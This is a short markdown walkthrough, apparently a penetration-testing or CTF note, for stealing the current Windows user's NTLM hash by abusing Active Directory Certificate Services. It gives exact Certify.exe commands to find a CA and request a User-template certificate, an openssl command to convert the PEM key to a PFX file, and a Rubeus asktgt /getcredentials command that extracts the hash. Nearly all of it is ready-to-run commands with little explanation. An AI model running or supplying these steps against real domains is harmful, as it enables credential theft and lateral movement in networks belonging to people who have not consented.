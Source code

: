 # This Attack Provide the NLTM hash of the Current User
We have to transfer the few exe and Grap the NTLM Hash.
# Step By Step 
```langauge
1. Transfer the certify.exe and Run it
2. Make a pem file and export to pfx, than transfer it
3. Transfer the pfx and Run the Rubeus.exe
```
# 1. Run the Certify.exe 
```language
#Grap the ca Name from the ouput 
.\Certify.exe find /enrollable
#Put the ca Name and Hostname of the Box 
.\Certify.exe request /ca:<hostname>\<ca_name> /template:User
```
# 2. Save the key and Certificate  with .pem file
```language
nano user_name.pem

openssl pkcs12 -in user_name.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```
# 3. Transfer the cert.pfx and Rebeus in Box
# 4. Extract the NTLM hash
```language
.\rubeus.exe asktgt /user:<current_user_name> /certificate:cert.pfx /getcredentials /show /nowrap
```
